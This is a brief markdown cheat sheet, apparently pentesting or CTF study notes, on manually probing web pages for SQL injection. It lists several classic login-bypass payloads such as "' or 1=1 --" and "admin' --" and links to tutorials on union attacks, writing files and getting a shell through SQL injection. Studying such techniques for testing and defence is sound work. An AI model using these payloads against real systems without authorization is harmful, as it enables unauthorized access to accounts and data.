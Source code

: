 ## Manually check pages for sql injection vuls:
(note you can use burp suite for this!!!)

```
admin' --
admin' #
admin'/*
' or 1=1 --
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
'-- -

```



https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/

--> How to write files:

https://www.exploit-db.com/papers/14635

--> How to use Union Attacks 

https://portswigger.net/web-security/sql-injection/union-attacks

IPPSEC Vids that really help:

https://www.youtube.com/watch?v=_csbKuOlmdE

https://www.youtube.com/watch?v=YHHWvXBfwQ8